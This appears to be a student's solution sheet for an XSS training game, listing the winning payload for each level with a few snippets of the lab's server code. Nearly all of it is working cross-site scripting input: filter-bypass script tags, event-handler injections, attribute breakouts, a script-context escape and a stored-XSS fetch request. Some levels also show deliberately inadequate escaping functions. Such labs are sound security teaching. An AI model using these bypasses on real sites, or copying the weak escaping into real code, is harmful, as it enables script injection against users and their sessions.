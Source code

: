 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success()</script>
```

# 2. No Script Allowed (3 points)

```
<scriptscript>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scrscriptipt>success()</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<img src=x onerror=success()>
```

# 5. Time to Mix Things Up (3 points)

```
<img src=x onerror=success()>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="success()"></xss>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="success()"></xss>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success()</script>
```

Server code:

```js

function htmlElementEscape (str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
}

router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q = htmlElementEscape(q)

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
" onload=success() "
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
"" onload=success() "
```

Server code:

```js

function htmlElementEscape (str) {
  return str
    .replace(/"/g, '&quot;')
}


router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  q = htmlElementEscape(q)

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
' onload =success()
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?lang=az%20%27%20onload=success()
```

# 15. The Early Bird Catches the Worm (3 points)

```
</script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//script><script>success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
window.fetch('/comment', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json'},
  body: JSON.stringify({text:'success()', id:1})
}).then((response) => response.json())
.then((responseJsonData) => {
  success();
  console.log(responseJsonData)
})
```

# 18. Congrats

N/A